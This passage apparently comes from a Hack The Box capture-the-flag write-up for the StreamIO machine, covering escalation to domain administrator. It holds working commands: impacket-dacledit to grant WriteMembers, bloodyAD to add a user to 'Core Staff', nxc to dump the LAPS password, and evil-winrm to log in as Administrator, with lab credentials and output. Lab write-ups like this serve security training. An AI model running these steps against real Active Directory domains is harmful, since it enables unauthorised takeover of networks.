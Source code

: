 ![image.png]({{ site.baseurl }}/assets/streamio/image%2040.png)

And core staff, can read LAPS password; which is admin password:

![image.png]({{ site.baseurl }}/assets/streamio/image%2041.png)

Let’s write ourselves to this group. First we need to grant ourselves the AddMembers permission:

```bash
#Getting group distinguished name on target evil-winrm
Get-ADGroup -Identity "Core Staff" | Select-Object -ExpandProperty DistinguishedName

CN=CORE STAFF,CN=Users,DC=streamIO,DC=htb

impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'JDgodd' -target-dn 'CN=CORE STAFF,CN=Users,DC=streamIO,DC=htb' 'streamio.htb'/'JDgodd':'JDg0dd1s@d0p3cr3@t0r'

[*] DACL backed up to dacledit-20251015-082544.bak
[*] DACL modified successfully!
                               
```

Now let’s add ourselves to the group

```bash
bloodyAD -u 'JDgodd' -p 'JDg0dd1s@d0p3cr3@t0r' -d streamio.htb --host 10.10.11.158 add groupMember 'Core Staff' JDgodd

[+] JDgodd added to Core Staff

```

Now let’s read LAPS password:

```bash
nxc ldap 10.10.11.158 -u 'JDgodd' -p 'JDg0dd1s@d0p3cr3@t0r' -M laps

LAPS        10.10.11.158    389    DC               Computer:DC$ User:                Password:s7458M7AD]1!r0
```

Now, let’s evil-winrm as Administrator:

```bash
evil-winrm -u Administrator -p 's7458M7AD]1!r0' -i 10.10.11.158
```

We are now administrator on DC.